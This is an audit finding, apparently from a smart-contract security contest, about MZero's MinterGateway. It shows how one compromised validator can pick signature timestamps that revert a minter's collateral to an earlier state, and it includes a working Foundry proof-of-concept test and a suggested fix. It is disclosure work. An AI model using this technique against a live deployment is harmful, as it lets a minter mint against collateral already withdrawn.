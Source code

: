 Salty Chili Cormorant

medium

# Validator threshold can be bypassed: a single compromised validator can update minter's state to historical state

## Summary

The `updateCollateralValidatorThreshold` specifies the minimum number of validators needed to confirm the validity of `updateCollateral` data. However, just **one** compromised validator is enough to alter a minter's collateral status. In particular, this vulnerability allows the compromised validator to set the minter's state back to a historical state, allowing malicious minters to increase their collateral.

## Vulnerability Detail

The `updateCollateral()` function calls the `_verifyValidatorSignatures()` function, which calculates the minimum timestamp signed by all validators. This timestamp is then used to update the minter state's `_minterStates[minter_].updateTimestamp`. The constraint during this process is that the `_minterStates[minter_].updateTimestamp` must always be increasing.

Function `updateCollateral()`:
```solidity
        minTimestamp_ = _verifyValidatorSignatures(
            msg.sender,
            collateral_,
            retrievalIds_,
            metadataHash_,
            validators_,
            timestamps_,
            signatures_
        );
        ...
        _updateCollateral(msg.sender, safeCollateral_, minTimestamp_);
        ...

```

Function `_updateCollateral()`:
```solidity
    function _updateCollateral(address minter_, uint240 amount_, uint40 newTimestamp_) internal {
        uint40 lastUpdateTimestamp_ = _minterStates[minter_].updateTimestamp;

        // MinterGateway already has more recent collateral update
        if (newTimestamp_ <= lastUpdateTimestamp_) revert StaleCollateralUpdate(newTimestamp_, lastUpdateTimestamp_);

        _minterStates[minter_].collateral = amount_;
        _minterStates[minter_].updateTimestamp = newTimestamp_;
    }
```

If we have 1 compromised validator, its signature can be manipulated to any chosen timestamp. Consequently, this allows for control over the timestamp in `_minterStates[minter_].updateTimestamp` making it possible to update the minter's state to a historical state. An example is given in the following proof of concept. The key here is that even though `updateCollateralValidatorThreshold` may be set to 2 or even 3, as long as 1 validator is compromised, the attack vector would work, thus defeating the purpose of having a validator threshold.

## Proof Of Concept

In this unit test, `updateCollateralInterval` is set to 2000 (default value). The `updateCollateralValidatorThreshold` is set to 2, and the `_validator1` is compromised. Following the steps below, we show how we update minter to a historical state:

0. Initial timestamp is `T0`.
1. 100 seconds passed, the current timestamp is `T0+100`. Deposit 100e6 collateral at `T0+100`. `_validator0` signs signature at `T0+100`, and `_validator1` signs signature at `T0+1`. After `updateCollateral()`, minter state collateral = 100e6, and updateTimestamp = `T0+1`.
2. Another 100 seconds passed, the current timestamp is `T0+200`. Propose retrieval for all collateral, and perform the retrieval offchain. `_validator0` signs signature at `T0+200`, and `_validator1` signs signature at `T0+2`. After `updateCollateral()`, minter state collateral = 0, and updateTimestamp = `T0+2`.
3. Another 100 seconds passed, the current timestamp is `T0+300`. Reuse `_validator0` signature from step 1, it is signed on timestamp `T0+100`. `_validator1` signs collateral=100e6 at `T0+3`. After `updateCollateral()`, minter state collateral = 100e6, and updateTimestamp = `T0+3`.

Now, the minter is free to perform minting actions since his state claims collateral is 100e6, even though he has already retrieved it back in step 2. The mint proposal may even be proposed between step 1 and step 2 to reduce the mintDelay the minter has to wait.

Add the following testing code to `MinterGateway.t.sol`. See more description in code comments.

```solidity
    function test_collateralStatusTimeTravelBySingleHackedValidator() external {
        _ttgRegistrar.updateConfig(TTGRegistrarReader.UPDATE_COLLATERAL_VALIDATOR_THRESHOLD, bytes32(uint256(2)));

        // Arrange validator addresses in increasing order.
        address[] memory validators = new address[](2);
        validators[0] = _validator2;
        validators[1] = _validator1;

        uint initialTimestamp = block.timestamp;
        bytes[] memory cacheSignatures = new bytes[](2);
        // 1. Deposit 100e6 collateral, and set malicious validator timestamp to `initialTimestamp+1` during `updateCollateral()`.
        {
            vm.warp(block.timestamp + 100);

            uint256[] memory retrievalIds = new uint256[](0);
            uint256[] memory timestamps = new uint256[](2);
            timestamps[0] = block.timestamp;
            timestamps[1] = initialTimestamp + 1;

            bytes[] memory signatures = new bytes[](2);
            signatures[0] = _getCollateralUpdateSignature(address(_minterGateway), _minter1, 100e6, retrievalIds, bytes32(0), block.timestamp, _validator2Pk);
            signatures[1] = _getCollateralUpdateSignature(address(_minterGateway), _minter1, 100e6, retrievalIds, bytes32(0), initialTimestamp + 1, _validator1Pk);
            cacheSignatures = signatures;

            vm.prank(_minter1);
            _minterGateway.updateCollateral(100e6, retrievalIds, bytes32(0), validators, timestamps, signatures);

            assertEq(_minterGateway.collateralOf(_minter1), 100e6);
            assertEq(_minterGateway.collateralUpdateTimestampOf(_minter1), initialTimestamp + 1);
        }

        // 2. Retrieve all collateral, and set malicious validator timestamp to `initialTimestamp+2` during `updateCollateral()`.
        {
            vm.prank(_minter1);
            uint256 retrievalId = _minterGateway.proposeRetrieval(100e6);

            vm.warp(block.timestamp + 100);

            uint256[] memory newRetrievalIds = new uint256[](1);
            newRetrievalIds[0] = retrievalId;

            uint256[] memory timestamps = new uint256[](2);
            timestamps[0] = block.timestamp;
            timestamps[1] = initialTimestamp + 2;

            bytes[] memory signatures = new bytes[](2);
            signatures[0] = _getCollateralUpdateSignature(address(_minterGateway), _minter1, 0, newRetrievalIds, bytes32(0), block.timestamp, _validator2Pk);
            signatures[1] = _getCollateralUpdateSignature(address(_minterGateway), _minter1, 0, newRetrievalIds, bytes32(0), initialTimestamp + 2, _validator1Pk);

            vm.prank(_minter1);
            _minterGateway.updateCollateral(0, newRetrievalIds, bytes32(0), validators, timestamps, signatures);

            assertEq(_minterGateway.collateralOf(_minter1), 0);
            assertEq(_minterGateway.collateralUpdateTimestampOf(_minter1), initialTimestamp + 2);
        }

        // 3. Reuse signature from step 1, and set malicious validator timestamp to `initialTimestamp+3` during `updateCollateral()`.
        //    We have successfully "travelled back in time", and minter1's collateral is back to 100e6.
        {
            vm.warp(block.timestamp + 100);

            uint256[] memory retrievalIds = new uint256[](0);
            uint256[] memory timestamps = new uint256[](2);
            timestamps[0] = block.timestamp - 200;
            timestamps[1] = initialTimestamp + 3;

            bytes[] memory signatures = new bytes[](2);
            signatures[0] = cacheSignatures[0];
            signatures[1] = _getCollateralUpdateSignature(address(_minterGateway), _minter1, 100e6, retrievalIds, bytes32(0), initialTimestamp + 3, _validator1Pk);

            vm.prank(_minter1);
            _minterGateway.updateCollateral(100e6, retrievalIds, bytes32(0), validators, timestamps, signatures);

            assertEq(_minterGateway.collateralOf(_minter1), 100e6);
            assertEq(_minterGateway.collateralUpdateTimestampOf(_minter1), initialTimestamp + 3);
        }
    }

```

## Impact

As shown in the proof of concept, the minter can use the extra collateral to mint M tokens for free.

One may claim that during minting, the `collateralOf()` function checks for `block.timestamp < collateralExpiryTimestampOf(minter_)`, however, since during deployment `updateCollateralInterval` is set to 86400, that gives us enough time to perform the attack vector before "fake" collateral expires.

## Code Snippet

- https://github.com/MZero-Labs/protocol/blob/main/src/MinterGateway.sol#L1045-L1106

## Tool used

Foundary

## Recommendation

Use the maximum timestamp of all validators instead of minimum, or take the `threshold`-last minimum instead of the most minimum.

